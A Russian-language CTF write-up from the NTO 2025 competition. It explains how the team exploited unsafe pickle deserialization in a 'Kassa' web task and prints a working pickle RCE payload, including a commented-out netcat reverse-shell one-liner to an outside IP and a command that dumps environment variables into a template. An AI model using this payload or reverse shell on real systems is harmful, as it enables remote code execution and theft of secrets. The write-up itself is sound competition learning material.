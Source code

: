 <h1>Отчёт НТО</h1>
<h4>подготовлен командой Poison Berries</h4>
<br><br>
Опубликован на <a href="https://github.com/mrvasil/nto-2025">https://github.com/mrvasil/nto-2025</a>
<br>
<br>
<h2>Касса</h2>

Смотрим исходный код<br>
Замечаем, что за запаковку подписанной строки отвечает модуль pickle<br>
```python
ticket = TicketDTO(name, current_user.username, datetime.datetime.now())
dump = pickle.dumps(ticket)
output = io.BytesIO()
output.write(dump)
```
Разобравшись, как он работает, узнаём о возможности произвольного выполнения кода, с его помощью.<br>
Пишем споит<br>
```python
import pickle

import os

class RCE:
    def __reduce__(self):
        #cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
        #         '/bin/sh -i 2>&1 | nc 10.5.5.184 41101 > /tmp/f')
        #cmd = ('sleep 15')
        cmd = ("""echo $(env) >> /app/templates/base.html""")
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    with open("sigma.pkl", "wb") as f:
        f.write(pickled) 
```
Загружаем полученый файл в задание и замечаем что он действительно выполняется (например sleep), хоть и без вывода.<br>

Попробовав несколько вариантов запуска reverse shell понимаем, что он не подключится (из-за отсутствия nc/curl/итд и видимо заблокированного доступа к сети в контейнере)<br>
Тогда просто записываем вывод необходимых нам команд просто в темплейты (так как включен debug режим и они сразу же обновлются для пользователя)<br><br>
Так как флаг лежит в env системы, команду "env" и запускаем.
